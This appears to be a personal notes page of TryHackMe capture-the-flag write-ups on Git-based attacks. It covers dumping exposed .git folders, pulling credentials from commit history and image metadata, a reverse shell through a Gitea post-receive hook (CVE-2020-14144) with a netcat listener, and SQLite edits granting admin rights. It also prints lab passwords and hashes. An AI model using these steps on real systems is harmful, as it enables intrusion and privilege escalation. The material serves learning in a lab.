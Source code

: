 # Git

## TryHackMe

### Git Happens

* Opened website in a browser
* DotGit extension automatically identified .git extension
  * view-source:http://10.10.60.56/.git/config
  * Downloaded all the files found in the .git folder
* Unzipped files and navigated into the directory containing the .git folder
* Viewed the git logs
  * `git log`
  * `git log --pretty=oneline`
* Viewed the specific commits in the logs
  * `git show <COMMIT ID>`
  * `git show e56eaa8e29b589976f33d76bc58a0c4dfb9315b1`
* Found cleartext credentials to login where the password was also the flag

```javascript
-      function login() {
-        let form = document.getElementById("login-form");
-        console.log(form.elements);
-        let username = form.elements["username"].value;
-        let password = form.elements["password"].value;
-        if (
-          username === "admin" &&
-          password === "Th1s_1s_4_L0ng_4nd_S3cur3_P4ssw0rd!"
-        ) {
-          document.cookie = "login=1";
-          window.location.href = "/dashboard.html";
-        } else {
-          document.getElementById("error").innerHTML =
-            "INVALID USERNAME OR PASSWORD!";
-        }
-      }
```

### Git and Crumpets

Used `curl` against the host on port 80 which showed us a 301 permanent redirect

`curl -v http://10.10.135.79`

The output also mentioned setting up repos at git.git-and-crumpets.thm as adding that to the /etc/hosts file

Opened git.git-and-crumpets.thm in a browser.

Registered for an account.

Viewed publicly available repos and their commits.

Found message for commit `9a151a065797e3ae8e4d86da9d32d032cdec6885` that the user mentioned "I kept the password in my avatar to be more secure."

Downloaded the avatar.

`wget http://git.git-and-crumpets.thm/avatars/3fc2cde6ac97e8c8a0c8b202e527d56d`

Used exiftool to get information out of the .png file and found a potential password.

```bash
exiftool 3fc2cde6ac97e8c8a0c8b202e527d56d.png 
...
Description    : My 'Password' should be easy enough to guess
```

Logged into the Gitea UI as the scones user: `scones:Password`

Now I can modify the Settings for the repository scones/cant-touch-this

#### Exploitation (CVE-2020-14144)

I can modify the Git Hooks be placing in a reverse shell into the post-receive hook.

Started a nectat listener: `sudo nc -lvnp 443`

Modified README.md, committed the changes, and got a reverse shell as the git user.

The database data is located in `/var/lib/gitea/data`

We can change the permissions for the scones user to access the root repository or change the root repository permissions to be public.

#### Change the Scones user permissions

```sql
sqlite3 gitea.db
select * from user;
1|hydra|hydra||hydragyrum@example.com|0|enabled|9b020d3e158bc31b5fe64d668d94cab38cadc6721a5fdf7a4b1fb7bf97021c5e68f56bd9bd44d5ce9547e5e234086342c4e4|pbkdf2|0|0|0||0|||XGySX7uBlc|3C4NzJWN9e|en-US||1618386984|1621615239|1621614217|0|-1|1|1|0|0|0|0|0|d91f03c868d38ecf84ab3cc54f876106|hydragyrum@example.com|1|0|0|0|1|0|0|0|0|unified|arc-green|0
2|root|root|groot|root@example.com|0|enabled|2181d2b5fbf1859db426bcb94d97851d9a0e87a5eb47c5edc7f92bffc45b679e554c8367084f379e59936b68c0d770823ec9|pbkdf2|0|0|0||0|||2VK8fSxvIZ|5e5xPrzvBr|en-US||1618391049|1621716065|1621716065|1|-1|1|0|1|0|0|0|0|b2b218891f86ea980812a5b934ecec1a|root@examle.com|1|0|0|0|1|0|0|0|0|unified|gitea|0
3|scones|scones||withcream@example.com|0|enabled|8d0386b217e0f1ad5a1012d879ce93c9d77fd79d888410fdee9e76ec58d6fa017042906dd9a2ea498d3fd5a7486a73875660|pbkdf2|0|0|0||0|Her Majesty's Secret Service||IF60pw0rVc|13y4Vtc2AH|en-US|I like scones.|1618492621|1625292211|1625292211|0|-1|1|0|0|1|0|0|0|3fc2cde6ac97e8c8a0c8b202e527d56d|jackel@example.com|1|0|0|0|1|0|0|0|0|unified|gitea|0
4|test|test||test@test.thm|0|enabled|d3463d9c205751364af7850bca7956d0f5cc0eb125a097db54fd0087eec31cec1912245e57fdfc53423a89e6684a15f8939a|pbkdf2|0|0|0||0|||oe4oKzc3mk|EgtShiimON|en-US||1618526457|1618526530|1618526457|0|-1|1|0|0|0|0|0|0|15c9bc2cfbc7b7fd0b627422d8189173|test@test.thm|0|0|0|0|0|0|0|0|0|unified|gitea|0
5|user101|user101||test@mail.com|0|enabled|7233dc67184372521c3e39c824016db859d608025ad5a731f1dbed0d399753c17de21921618a385804ddc6bc57893049d555|pbkdf2|0|0|0||0|||BFMsu8xkcI|mameP7va9K|en-US||1625291416|1625291644|1625291416|0|-1|1|0|0|0|0|0|0|97dfebf4098c0f5c16bca61e2b76c373|test@mail.com|0|0|0|0|0|0|0|0|0|unified|gitea|0

UPDATE user SET is_admin=1 WHERE id=3;
```

#### Change the root repository permissions

```sql
sqlite3 gitea.db
SELECT * FROM repository;
1|1|hydra|hello-world|hello-world|Hello World||0||master|1|0|0|0|0|0|0|0|0|0|0|0|0|0|0|0|0|0|0|0|23159|1|0|null|0||1618390571|1618491347
2|2|root|backup|backup|||0||master|1|0|0|0|0|0|0|0|0|0|0|1|0|0|0|0|0|0|0|0|25612|1|0|null|0||1618493101|1618494415
3|3|scones|cant-touch-this|cant-touch-this|Stop! Hammer time!||0||master|1|0|0|0|0|0|0|0|0|0|0|0|0|0|0|0|0|0|0|0|23712|1|0|null|0||1618494644|1618496989
SELECT sql FROM sqlite_master WHERE type='table' AND tbl_name='repository';
CREATE TABLE `repository` (`id` INTEGER PRIMARY KEY AUTOINCREMENT NOT NULL, `owner_id` INTEGER NULL, `owner_name` TEXT NULL, `lower_name` TEXT NOT NULL, `name` TEXT NOT NULL, `description` TEXT NULL, `website` TEXT NULL, `original_service_type` INTEGER NULL, `original_url` TEXT NULL, `default_branch` TEXT NULL, `num_watches` INTEGER NULL, `num_stars` INTEGER NULL, `num_forks` INTEGER NULL, `num_issues` INTEGER NULL, `num_closed_issues` INTEGER NULL, `num_pulls` INTEGER NULL, `num_closed_pulls` INTEGER NULL, `num_milestones` INTEGER DEFAULT 0 NOT NULL, `num_closed_milestones` INTEGER DEFAULT 0 NOT NULL, `num_projects` INTEGER DEFAULT 0 NOT NULL, `num_closed_projects` INTEGER DEFAULT 0 NOT NULL, `is_private` INTEGER NULL, `is_empty` INTEGER NULL, `is_archived` INTEGER NULL, `is_mirror` INTEGER NULL, `status` INTEGER DEFAULT 0 NOT NULL, `is_fork` INTEGER DEFAULT 0 NOT NULL, `fork_id` INTEGER NULL, `is_template` INTEGER DEFAULT 0 NOT NULL, `template_id` INTEGER NULL, `size` INTEGER DEFAULT 0 NOT NULL, `is_fsck_enabled` INTEGER DEFAULT 1 NOT NULL, `close_issues_via_commit_in_any_branch` INTEGER DEFAULT 0 NOT NULL, `topics` TEXT NULL, `trust_model` INTEGER NULL, `avatar` TEXT NULL, `created_unix` INTEGER NULL, `updated_unix` INTEGER NULL)

UPDATE repository SET is_private=0 WHERE id=2;
SELECT * FROM repository;
1|1|hydra|hello-world|hello-world|Hello World||0||master|1|0|0|0|0|0|0|0|0|0|0|0|0|0|0|0|0|0|0|0|23159|1|0|null|0||1618390571|1618491347
2|2|root|backup|backup|||0||master|1|0|0|0|0|0|0|0|0|0|0|0|0|0|0|0|0|0|0|0|25612|1|0|null|0||1618493101|1618494415
3|3|scones|cant-touch-this|cant-touch-this|Stop! Hammer time!||0||master|1|0|0|0|0|0|0|0|0|0|0|0|0|0|0|0|0|0|0|0|24715|1|0|null|0||1618494644|1618702858
```

Back in the Gitea UI we now have access to the root / backup git repository

Switching Branch to dotfiles we find a SSH Private Key and the file it is in is the name of the passphrase for logging in via SSH with the private key.

### harder

* After finding the subdomain pwd.harder.local and then navigating to it in a browser, the DotGit extension automatically identified .git extension.
* Downloaded all the files found in the .git folder
* Unzipped files and navigated into the directory containing the .git folder
* Viewed the git logs
  * `git log`
  * `git log --pretty=oneline`

Viewed the specific commits in the logs

```bash
kali@kali:~/ctf/thm/harder/pwd_harder_local$ git log --pretty=oneline
9399abe877c92db19e7fc122d2879b470d7d6a58 (HEAD -> master) add gitignore
047afea4868d8b4ce8e7d6ca9eec9c82e3fe2161 add extra security
ad68cc6e2a786c4e671a6a00d6f7066dc1a49fc3 added index.php
```

We see some interesting information the the commit "add extra security"

```bash
git show 047afea4868d8b4ce8e7d6ca9eec9c82e3fe2161
# We find some interesting files: auth.php, hmac.php, secret.php, and credentials .php
```

Also used a script from [GitTools ](https://github.com/internetwache/GitTools)to dump all the files from Git.

```bash
/opt/GitTools/Dumper/gitdumper.sh http://pwd.harder.local/.git/ .
```

When running `git status` we see 4 files that were deleted that look interesting.

We can get these files back again using GitTools

```bash
/opt/GitTools/Extractor/extractor.sh ~/ctf/thm/harder/pwd_harder_local/git/ extracted/
```

### Other...

## References

{% embed url="https://git-scm.com/docs" %}
